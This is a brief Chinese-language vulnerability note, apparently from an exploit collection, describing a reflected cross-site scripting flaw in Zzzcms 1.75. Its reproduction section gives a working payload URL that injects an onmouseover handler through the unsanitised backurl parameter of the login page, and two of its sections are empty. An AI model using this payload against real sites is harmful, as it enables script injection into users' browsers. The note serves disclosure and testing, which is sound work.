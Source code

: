 Zzzcms 1.75 xss漏洞
===================

一、漏洞简介
------------

二、漏洞影响
------------

Zzzcms 1.75

三、复现过程
------------

    http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d

该onmouseover事件在移动到登录注册时会触发

![](./.resource/Zzzcms1.75xss漏洞/media/rId24.png)

对传入的backurl并没有做任何防护

image
